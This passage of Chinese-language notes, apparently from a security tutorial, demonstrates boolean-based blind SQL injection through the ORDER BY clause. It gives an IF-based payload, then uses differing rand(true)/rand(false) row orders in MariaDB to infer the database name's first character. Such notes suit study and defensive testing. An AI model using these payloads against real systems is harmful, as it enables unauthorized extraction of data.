 **`order by IF((bool),1,(select 1 union select 2));`**

**使用`rand()`**

```mysql
MariaDB [test]> select id from message order by rand(true);
+----+
| id |
+----+
|  5 |
|  3 |
|  1 |
|  2 |
+----+
4 rows in set (0.002 sec)
MariaDB [test]> select id from message order by rand(false);
+----+
| id |
+----+
|  1 |
|  5 |
|  2 |
|  3 |
+----+
4 rows in set (0.001 sec)
```

**`rand(true)`与`rand(false)`返回不同来判断**

```mysql
MariaDB [test]> select id from message order by rand(SUBSTR((SELECT database()),1,1)>'t');
+----+
| id |
+----+
|  1 |
|  5 |
|  2 |
|  3 |
+----+
4 rows in set (0.001 sec)

MariaDB [test]> select id from message order by rand(SUBSTR((SELECT database()),1,1)<'t');
+----+
| id |
+----+
|  1 |
|  5 |
|  2 |
|  3 |
+----+
4 rows in set (0.000 sec)

MariaDB [test]> select id from message order by rand(SUBSTR((SELECT database()),1,1)='t');
+----+
| id |
+----+
|  5 |
|  3 |
|  1 |
|  2 |
+----+
4 rows in set (0.000 sec)
```
